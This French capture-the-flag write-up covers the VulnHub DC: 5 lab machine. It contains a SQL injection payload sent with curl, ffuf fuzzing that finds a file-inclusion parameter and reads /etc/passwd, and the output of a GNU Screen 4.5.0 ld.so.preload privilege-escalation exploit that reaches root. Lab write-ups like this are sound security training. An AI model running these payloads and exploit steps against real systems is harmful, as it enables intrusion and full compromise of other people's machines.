 ```yaml
---
title: "Solution du CTF DC: 5 de VulnHub"
tags: [VulnHub, CTF]
---
```


5ᵉ épisode de cette série de CTF signée [DCAU7](https://www.five86.com/index.html). Il faut sans doute un peu d'expérience en CTF pour tenter les actions qui permettent d'avancer sur ce CTF.

Ule liste telle que [celle-ci](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt) peut être utile.

Grosso-modo Nmap retourne un serveur web sur le port 80. Le reste (portmap + status) n'a pas d'importance.

## You Can't Teach an Old Dog New Tricks

Le site web est composé de quelques scripts et je décide de lancer Wapiti dessus :
```bash
wapiti -u http://192.168.56.135/ -v2 --color -m all
```

Ce dernier trouve deux paramètres vulnérables à des injections SQL de type boolean-based. Le PoC cURL donné est le suivant :

```bash
curl "http://192.168.56.135/thankyou.php?firstname=default&lastname=default&country=other%22%29%20AND%2068%3D68%20AND%20%28%2296%22%3D%2296&subject=Hi%20there%21" -e "http://192.168.56.135/contact.php"
```

C'est étonnant, car si on change la comparaison dans la requête SQL injectée on ne voit à priori pas de différences dans la réponse.
En réalité après plusieurs essais, on voit que du contenu change et ce même sans passer de paramètres au script :

```console
$ curl -s http://192.168.56.135/thankyou.php | grep Copyr
                                Copyright © 2018                        </footer>
$ curl -s http://192.168.56.135/thankyou.php | grep Copyr
                                Copyright © 2020                        </footer>
$ curl -s http://192.168.56.135/thankyou.php | grep Copyr
                                Copyright © 2017                        </footer>
$ curl -s http://192.168.56.135/thankyou.php | grep Copyr
                                Copyright © 2019                        </footer>
```

Dans la réalité, on penserait load-balancing et/ou cache. Mais ici on pense plutôt variable qui prend une valeur aléatoire si non renseignée.

Je décide donc de bruteforcer un nom de paramètre sur le script comme j'ai pu le faire notamment sur le [CTF Insomnia]({% link _posts/2022-12-06-Solution-du-CTF-Insomnia-de-VulnHub.md %}).

```console
$ ffuf -u "http://192.168.56.135/thankyou.php?FUZZ=/etc/passwd" -w common_query_parameter_names.txt -fs 852

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.135/thankyou.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: common_query_parameter_names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 852
________________________________________________

file                    [Status: 200, Size: 2319, Words: 41, Lines: 71]
:: Progress: [5699/5699] :: Job [1/1] :: 2776 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

Le paramètre file s'avère être bien une inclusion PHP. J'ai choisi une fois de plus d'utiliser [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) pour transformer cette LFI en RCE.

## Getting lucky

Pour l'escalade de privilèges, on retrouve un Screen en version 4.5.0 comme sur le CTF [FSoft]({% link _posts/2022-12-04-Solution-du-CTF-FSoft-Challenges-VM-de-VulnHub.md %}) ou le [Nully Security]({% link _posts/2022-11-30-Solution-du-CTF-Nully-Cybersecurity-de-VulnHub.md %}).  

```console
www-data@dc-5:/home/dc$ ls -alh /bin/screen-4.5.0
-rwsr-xr-x 1 root root 1.4M Apr 19  2019 /bin/screen-4.5.0
```

L'exploit n'a pas fonctionné tout de suite. En particulier l'écriture via le screen a l'air de fonctionner un peu comme elle veut, mais ça a fini par fonctionner :

```console
www-data@dc-5:/tmp$ chmod +x screen_exploit.sh 
www-data@dc-5:/tmp$ ./screen_exploit.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/usr/bin/ld: cannot open output file /tmp/rootshell: Permission denied
collect2: error: ld returned 1 exit status
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
thisistheflag.txt
# cat thisistheflag.txt 


888b    888 d8b                                                      888      888 888 888 
8888b   888 Y8P                                                      888      888 888 888 
88888b  888                                                          888      888 888 888 
888Y88b 888 888  .d8888b .d88b.       888  888  888  .d88b.  888d888 888  888 888 888 888 
888 Y88b888 888 d88P"   d8P  Y8b      888  888  888 d88""88b 888P"   888 .88P 888 888 888 
888  Y88888 888 888     88888888      888  888  888 888  888 888     888888K  Y8P Y8P Y8P 
888   Y8888 888 Y88b.   Y8b.          Y88b 888 d88P Y88..88P 888     888 "88b  "   "   "  
888    Y888 888  "Y8888P "Y8888        "Y8888888P"   "Y88P"  888     888  888 888 888 888 
                                                                                          
                                                                                          


Once again, a big thanks to all those who do these little challenges,
and especially all those who give me feedback - again, it's all greatly
appreciated.  :-)

I also want to send a big thanks to all those who find the vulnerabilities
and create the exploits that make these challenges possible.
```
